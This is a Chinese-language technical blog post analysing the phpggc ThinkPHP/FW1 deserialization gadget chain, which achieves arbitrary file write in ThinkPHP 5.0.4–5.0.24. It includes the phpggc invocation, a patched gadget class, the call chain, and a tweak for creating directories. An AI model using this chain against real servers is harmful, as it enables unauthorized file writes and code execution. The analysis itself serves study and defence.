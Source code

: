 ```yaml
---
title: phpggc thinkphp FW1
date: 2023-06-07 22:21:43
categories:
- PHP
tags:
- Deserialization
- thinkphp
toc: true
notshow: true
---
```


### FW1
影响范围：
- thinkphp 5.0.4-5.0.24

#### 使用
FW1 使用时需要提供两个参数，第一个参数用于指定写入的路径，第二个参数用于指定本地读取的文件。-b 参数用于将输出转为 base64。

```bash
phpggc ThinkPHP/FW1 /tmp/ /mnt/share/Tools/web/PHP/unserialize/phpggc/test/test.txt -b
```

github 上这条链原始的代码中还存在一个问题，HasMany 类中需要添加一行 `protected $query;` 源码中 `$query` 并不是一个 public 变量。
```php
namespace think\model\relation
{
    use think\console\Output;
    use think\model\Merge;
    use think\model\Relation;
    
    class HasMany extends Relation
    {
        protected $parent;
        protected $localKey = 'a';
        protected $pivot;
        protected $foreignKey;
        protected $query;

        public function __construct($path, $data)
        {
            $this->foreignKey = $data;
            $this->query = new Output($path, $data);
            $this->parent = new Merge();
        }
    }
}
```


#### 分析
这条链的的流程如下：

```php
think\Process::__destruct()                                
    | $this->close()                                       
    | $this->processPipes->close()                         
    think\model\relation\HasMany::__call()                 
        | $this->baseQuery()                               
        | $this->query->where()        
        think\console\Output::__call()                     
            | call_user_func_array([$this, 'block'], $args)
            | $this->block()                               
            | $this->handle->write()                       
            think\session\driver\Memcache::write()         
                | $this->handler->set()                    
                think\cache\driver\Memcached::set()<-+     
                    | $this->handler->set()          |     
                    think\cache\driver\File::set()   |     
                        | $this->setTagItem()        |     
                        | $this->set()               |     
                        file_put_contents() * <----  |     
                    | $this->setTagItem()            |     
                    | $this->set()-------------------+       
```

总的来看整个利用链使用了五个类，最终走向了 file_put_contents。think\cache\driver\File::set 函数在调用 file_put_contents 函数时，需要 `$filename`, `$data` 两个参数.

```php
public function set($name, $value, $expire = null)
{
    ...
    $filename = $this->getCacheKey($name, true);
    ...
    $data = serialize($value);
    ...
    $data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
    $result = file_put_contents($filename, $data);
    if ($result) {
        isset($first) && $this->setTagItem($filename);
    ...
}
```
- `$data` 来源于`$value` 序列化后的内容, 最终会和 `$expire` 参数做一个拼接，`$expire` 在 sprintf 的作用下会变成数字，因此 `$expire` 的值即使控制也没什么用。
- `$filename`来自于 getCacheKey 函数传入 `$name`的结果，该函数首先进行了一个 md5, 然后作了一个拼接,因此`$this->options['path']` 是可以控制的.
  ```php
  $name = md5($name);
  $filename = $this->options['path'] . $name . '.php';
  ```

两个参数都是可控的，下一步就是找到哪里调用了 set 方法，可以直接在 phpstorm 中查找 `->set(` ，也就是调用了某个属性的 set 方法，且传入参数的数量 >= 3（在 PHP 中，如果你调用一个函数并传入比函数定义要求的更多的参数，那么多余的参数将被忽略。PHP 不会因为传入了多余的参数而抛出错误或警告。），满足条件的其实很多，参数个数恰好为 3 的只有下面的这一个，phpggc 中也是用的这个
 - `think\cache\driver\Memcached::set()` 

`think\cache\driver\Memcached::set()` 中调用 `$this->handler->set` 时传入的 $value 直接来自于上一个 gadget。
```php
public function set($name, $value, $expire = null)
{
    ...
    if ($this->tag && !$this->has($name)) {
        $first = true;
    }
    $key    = $this->getCacheKey($name);
    ...
    if ($this->handler->set($key, $value, $expire)) {
        isset($first) && $this->setTagItem($key);
        return true;
    }
    return false;
}
```
再往上寻找 gadget 时同样可以搜索 `->set(`， phpggc 使用的是 `think\session\driver\Memcache::write()` ,因此 `$value` 的值来自于 `$sessData`
```php
public function write($sessID, $sessData)
{think\console\Output
    return $this->handler->set($this->config['session_name'] . $sessID, $sessData, 0, $this->config['expire']);
}
```
具体找利用链的过程大致如此，就 phpggc 这条链来看, 继续往上溯源发现 `$sessData` 来源于在 `think\console\Ouput::write` 中的 `$newline`, 而 `$newline` 来自于 `think\console\Ouput::writeln` 中，值为 true。这么一看， value 值似乎就是不可控制的。

```php
public function writeln($messages, $type = self::OUTPUT_NORMAL)
{
    $this->write($messages, true, $type);
}

public function write($messages, $newline = false, $type = self::OUTPUT_NORMAL)
{
    $this->handle->write($messages, $newline, $type);
}
```

最终这条链能够控制 `$value` 的地方在于,`think\cache\driver\Memcached::set()` 方法在调用完 `$this->handler->set()` 后调用了 `$this->setTagItem($key)`，传入参数为 `$key`，这个参数的内容是我们所控制的，代码如下：
```php
public function set($name, $value, $expire = null)
{
    ...
    if ($this->handler->set($key, $value, $expire)) {
        isset($first) && $this->setTagItem($key); /****here***/
        return true;
    }
    return false;
}
```
setTagItem 函数中会用 `$name` 对 `$value` 进行赋值，此时 `$value` 的值就是可控的了，这时调用 set 方法，就会再次调用 file_put_content 写入.
```php
protected function setTagItem($name)
{
    if ($this->tag) {
        $key       = 'tag_' . md5($this->tag);
        $this->tag = null;
        if ($this->has($key)) {
            $value   = explode(',', $this->get($key));
            $value[] = $name;
            $value   = implode(',', array_unique($value));
        } else {
            $value = $name;
        }
        $this->set($key, $value, 0);
    }
}
```
注意：
1. 由于两次调用 set 方法时传入的第一个参数不一样，因此在指定的目录下会创建两个文件。
2. phpggc 中的利用链默认情况下不能写入一个不存在的目录，例如 /tmp/test/, 如果 test 目录不存在，则无法写入，但 getCacheKey 函数中存在创建目录并更改权限为 755 的代码, 由于 phpggc 默认传入的 $filename 带有 php://filter 前缀，因此运行 mkdir 时无法正常创建.
   ```php
    $filename = $this->options['path'] . $name . '.php';
    $dir      = dirname($filename);

    if ($auto && !is_dir($dir)) {
        mkdir($dir, 0755, true);
    }
   ```
   因此，在如果要创建目录的话，可以将原 payload 中的 php://filer 前缀去掉。


### 参考
- [phpggc详解](https://skysec.top/2019/08/02/phpggc%E8%AF%A6%E8%A7%A3/)
- [ThinkPHP5反序列化利用链总结与分析](https://www.freebuf.com/vuls/317886.html)
- [浅谈ThinkPH5.0和5.1的反序列化利用链分析](https://juejin.cn/post/7049323076676239367#heading-14)


